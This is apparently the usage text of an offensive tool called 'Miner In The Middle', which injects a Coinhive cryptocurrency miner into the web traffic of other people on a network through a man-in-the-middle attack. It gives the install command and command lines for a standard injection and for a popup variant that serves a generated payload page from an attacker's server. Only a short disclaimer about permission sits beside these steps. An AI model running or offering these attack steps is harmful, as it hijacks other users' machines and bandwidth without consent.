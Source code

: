 
		
	 Miner In The Middle
	 Author - Anthony Russell
	 @DotNetRussell

	 Not for illegal use!
	 (unless you own the network or have permission from everyone on it, it's illegal)
	 
	 To install dependencies run:
	 	./miner_itm.sh --install
	
	 To launch a standard miner injection attack run:
	 	./miner_itm.sh <coinhive api key> <gateway ip> <interface name>
	
	 ----To launch a popup miner attack----
	
	 	First run:
	 		./miner_itm.sh --generate <coinhive api key>
	
	 and place payload.html into your web server root directory
	
   	Second run:
			./miner_itm.sh -p <gateway ip> <interface name> <web server ip>
	
	

